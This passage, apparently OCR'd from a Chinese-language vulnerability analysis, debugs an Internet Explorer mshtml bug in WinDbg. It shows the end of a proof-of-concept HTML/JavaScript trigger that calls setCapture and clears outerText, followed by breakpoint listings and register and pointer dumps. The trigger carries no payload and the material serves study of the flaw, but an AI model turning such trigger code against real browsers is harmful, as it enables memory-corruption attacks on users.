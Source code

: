 ```
        Math.cos(0);
    }
    id_0["outerText"] = "";
    Math.sin(0);
    id_0.setCapture();
    id_1.setCapture();
}
window.onload = function() {
    trigger();
}
</script>
</html>
```

此时的断点
```
0:013> bl
     0 e Disable Clear u             0001 (0001) (jscript!sin)
     1 e Disable Clear u             0001 (0001) (jscript!cos)
     2 e Disable Clear u             0001 (0001) (jscript!tan)
     3 e Disable Clear  63489fd3     0001 (0001)  0:**** mshtml!CElement::CElement ".echo 获取到对象指针;r eax;gc"
     4 d Enable Clear  6350244e     0001 (0001)  0:**** mshtml!CDoc::PumpMessage
```

跑起来，两次断下，下面为第一次
```
0:013> g
获取到对象指针
eax=06d66fd8
获取到对象指针
eax=08266fd8
获取到对象指针
eax=07597fd8
获取到对象指针
eax=05996fd0
获取到对象指针
eax=0593ef98
ModLoad: 67e40000 67ef2000   C:\Windows\System32\jscript.dll
获取到对象指针
eax=077d6fd0
Breakpoint 0 hit
eax=00000000 ebx=0432c820 ecx=00000005 edx=00000003 esi=0432c810 edi=0432c810
eip=67e6d6e9 esp=0432c6f4 ebp=0432c730 iopl=0         nv up ei pl nz ac po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212
jscript!sin:
67e6d6e9 ff256810e467    jmp     dword ptr [jscript!_imp__sin (67e41068)] ds:0023:67e41068={msvcrt!sin (762f8aea)}
```

到达第二个`Math.sin`，获取到当前的两个元素对象指针，开启断点`mshtml!CDoc::PumpMessage`，
```
0:005> g
获取到对象指针
eax=07e10fd8
获取到对象指针
eax=07df2fc8
Breakpoint 0 hit
eax=00000000 ebx=0432c820 ecx=00000005 edx=00000003 esi=0432c810 edi=0432c810
eip=67e6d6e9 esp=0432c6f4 ebp=0432c730 iopl=0         nv up ei pl nz ac po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212
jscript!sin:
67e6d6e9 ff256810e467    jmp     dword ptr [jscript!_imp__sin (67e41068)] ds:0023:67e41068={msvcrt!sin (762f8aea)}
0:005> be 4
```